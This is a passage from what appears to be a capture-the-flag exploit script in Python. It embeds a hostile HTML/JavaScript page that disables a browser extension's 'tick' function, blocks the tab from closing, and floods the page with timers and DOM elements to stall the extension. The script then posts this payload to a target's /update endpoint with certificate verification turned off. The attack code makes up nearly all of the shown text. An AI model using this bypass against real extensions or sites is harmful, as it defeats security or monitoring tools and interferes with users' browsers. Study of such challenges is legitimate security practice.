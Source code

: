 ```python
                            };
                        }
                    });
                } catch(e) {}
            }
            
            // Try to override the extension's tick function if it's exposed
            Object.defineProperty(window, 'tick', {
                value: async function() {
                    // Return immediately without doing anything
                    return;
                },
                writable: false,
                configurable: false
            });
            
            // Block any attempts to close the tab via beforeunload
            window.addEventListener('beforeunload', function(e) {
                e.preventDefault();
                e.returnValue = '';
                return '';
            });
            
            // Create a lot of noise to slow down extension execution
            for(let i = 0; i < 100; i++) {
                setTimeout(() => {
                    console.log('Keeping busy...');
                }, i * 10);
            }
        })();
        </script>
    </head>
    <body>
        <h1>CTF Challenge Page</h1>
        <p>This page is designed to stay open.</p>
        <button id="free-click">Click Me</button>
        
        <script>
        // Keep creating elements to potentially overwhelm the extension
        setInterval(() => {
            const div = document.createElement('div');
            div.style.display = 'none';
            document.body.appendChild(div);
        }, 1);
        
        // Continuously update the page to keep it "active"
        let counter = 0;
        setInterval(() => {
            document.title = 'Active Page ' + (counter++);
        }, 100);
        </script>
    </body>
    </html>
    """
    
    print("[*] Step 1: Updating page content with extension bypass...")
    try:
        response = requests.post(
            f"{TARGET}/update",
            data={"html": exploit_html},
            verify=False
        )
        print(f"[+] Update response: {response.text}")
```
